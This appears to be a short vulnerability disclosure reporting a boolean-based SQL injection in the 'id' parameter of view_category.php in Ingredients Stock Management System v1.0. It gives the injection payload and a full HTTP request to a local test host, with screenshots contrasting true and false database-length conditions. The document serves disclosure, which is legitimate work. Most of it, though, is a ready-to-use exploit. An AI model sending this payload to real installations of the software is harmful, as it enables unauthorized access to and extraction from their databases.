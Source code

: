 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/categories/view_category.php

Vulnerability location: /isms/admin/categories/view_category.php, id

db_name = isms_db;length=7

[+] Payload: /isms/admin/categories/view_category.php?id=3%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /isms/admin/categories/view_category.php?id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384045-8a841f64-46ef-441c-8560-3a9c1bc65075.png)


When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384051-8b7800c4-068a-4a2b-bc11-ed21594f4a2c.png)
